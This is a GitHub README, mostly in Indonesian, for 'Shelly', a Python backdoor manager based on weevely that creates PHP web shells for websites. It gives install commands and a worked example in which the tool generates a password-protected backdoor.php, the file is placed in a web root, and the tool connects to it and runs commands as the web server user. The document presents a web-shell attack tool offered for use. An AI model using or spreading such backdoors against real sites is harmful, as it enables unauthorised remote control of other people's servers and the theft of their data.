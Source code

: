 
## Shelly | Simple Backdoor Manager with Python (based on weevely)

![Screenshoot](/shelly.png)
<br>
Shelly adalah sebuah tool sederhana yang ditulis menggunakan Python, yang berfungsi untuk membuat backdoor pada website
<br>
### Instalation :

$ git clone https://github.com/tegal1337/Shelly <br>
$ cd Shelly <br>
$ python3 shell.py <br>

### Requirements :

<pre>
sudo pip install -r requirements.txt
</pre>

### Example :
<pre>

python3 shell.py -g backdoor -p tegal1337
   ______      ____
  / __/ / ___ / / __ __
 _\ \/ _ / -_/ / / // /
/___/_//_\__/_/_/\_, /
                /___/  v.1
--------------------------
Python shell - Tegal1337 |
Generate :
[+] ./backdoor.py -g "nama_shell" -p "password"
Connect Server :
[+] ./backdoor.py -u "url_shell" -p "password"

Backdoor berhasil dibuat dengan nama backdoor.php dan password tegal1337

dalpan@Tegal1337:~/Tools$ mv backdoor.php /opt/lampp/htdocs/php-futsal/
dalpan@Tegal1337:~/Tools$ python3 shell.py -u "http://localhost/php-futsal/backdoor.php" -p tegal1337
/opt/lampp/htdocs/php-futsal$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
</pre>
![Screenshoot](/shelly2.png)
### Contact :
<ul>
  <li> Email : contact@dalpan.co</li>
  <li> FB : fb.com/dalpan.me
</ul>
